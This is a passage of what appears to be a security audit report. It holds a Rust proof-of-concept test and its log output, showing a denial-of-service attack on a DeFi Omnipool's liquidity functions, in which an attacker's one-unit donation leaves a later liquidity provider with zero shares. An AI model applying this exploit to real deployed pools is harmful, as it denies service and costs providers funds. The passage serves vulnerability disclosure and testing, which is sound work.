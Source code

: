 > 			(LP1, 1_000, 5000 * ONE),
> 		])
> 		.with_initial_pool(FixedU128::from_float(0.5), FixedU128::from(1))
> 		.with_token(1_000, FixedU128::from_float(0.65), LP2, 2000 * ONE) // this is the first liquidity addition done by the LP2
> 		.build()
> 		.execute_with(|| {
> 			let asset_a = 1_000;
> 			// how to perform this DoS attack.
> 			// lp2 provides 2000 units of asset_a, and remove all of them
> 			// lp1 send some assets to the pool
> 			// this will prevent the function add_liquidity from the revert
> 			// lp2 will add liquidity of 400 units of asset_a and will receive zero shares.
> 
> 			// the lp2 position is the last position which is the (next position id - 1)
> 			let lp2_position_id = <NextPositionId<Test>>::get() - 1;
> 			// get asset_a state.
> 			println!(
> 				"asset state before the entire liquidity removal {:?} ",
> 				Omnipool::load_asset_state(asset_a).unwrap()
> 			);
> 			let pos = Positions::<Test>::get(lp2_position_id);
> 			println!(" the lp2_position before all liquidity removal: {:?}", pos.unwrap());
> 			// lp2 remove his all  liquidity from the pool
> 			assert_ok!(Omnipool::remove_liquidity(RuntimeOrigin::signed(LP2), 2, 2000 * ONE));
> 			// this makes sure that all liquidity were removed, and the position get destroyed
> 			assert!(
> 				Positions::<Test>::get(lp2_position_id).is_none(),
> 				"Position still found"
> 			);
> 			// state of asset_a after the entire liquidity removal
> 			println!(
> 				"the final state after all liquidity has been removed: {:?} ",
> 				Omnipool::load_asset_state(asset_a).unwrap()
> 			);
> 			// the attacker LP1 send 1 unit of asset_a to the pool 
> 			Tokens::transfer(RuntimeOrigin::signed(LP1), Omnipool::protocol_account(), asset_a, ONE);
> 			let liq_added = 400 * ONE;
> 			// the LP2 added liquidity to the pool 
> 			assert_ok!(Omnipool::add_liquidity(RuntimeOrigin::signed(LP2), asset_a, liq_added));
> 			// get the new position of the LP2 
> 			let new_lp2_position_id = <NextPositionId<Test>>::get() - 1;
> 
> 			let pos = Positions::<Test>::get(new_lp2_position_id);
> 			println!(
> 				" the lp2_position  after adding liquidity of 400 units of asset_a: {:?}",
> 				pos.unwrap()
> 			);
> 			println!(
> 				"the new state after liquidity provision had done but NO shares got minted to LP2: {:?}",
> 				Omnipool::load_asset_state(asset_a).unwrap()
> 			);
> 		});
> }
> ```
> You can run the test and see the Logs that I used to explain the attack flow: 
>
> ```rust  
> running 1 test
> asset state before the entire liquidity removal AssetReserveState { reserve: 2000000000000000, hub_reserve: 1300000000000000, shares: 2000000000000000, protocol_shares: 0, cap: 1000000000000000000, tradable: SELL | BUY | ADD_LIQUIDITY | REMOVE_LIQUIDITY } 
>  the lp2_position before all liquidity removal: Position { asset_id: 1000, amount: 2000000000000000, shares: 2000000000000000, price: (650000000000000000, 1000000000000000000) }